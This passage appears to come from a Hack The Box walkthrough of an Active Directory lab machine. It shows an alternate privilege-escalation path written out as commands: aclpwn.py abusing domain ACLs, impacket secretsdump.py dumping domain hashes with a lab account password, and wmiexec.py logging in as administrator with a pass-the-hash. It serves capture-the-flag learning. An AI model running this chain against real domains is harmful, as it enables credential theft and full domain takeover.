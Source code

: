 **Alternate Privesc path**

An alternative way to do this is to use aclpwn which basically automates all the steps that were done in powershell above.

> https://github.com/fox-it/aclpwn.py.git

Neo4j and Bloodhound were both still running from earlier (aclpwn requires they both be running).

I ran aclpwn.py, specifying the domain username and the ne4j username and password

```
python ./aclpwn.py/aclpwn.py -f svc-alfresco@htb.local -d htb.local -s 10.10.10.161 -du neo4j -dp password
>> enter password "s3rvice" when prompted <<
press option 1
```

The account now had permissions to dump domain hashes

```
~/tools/impacket/examples/secretsdump.py "svc-alfresco:s3rvice"@10.10.10.161
```

I copied the administrator hash from the secretsdump output and used it with the -hashes parameter with wmixec.py to get a shell as 'htb\administrator'

```
~/tools/impacket/examples/wmiexec.py htb.local/administrator@10.10.10.161 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![image](https://user-images.githubusercontent.com/10210108/81127712-13566f80-8f0d-11ea-88e1-25689509ea9f.png)
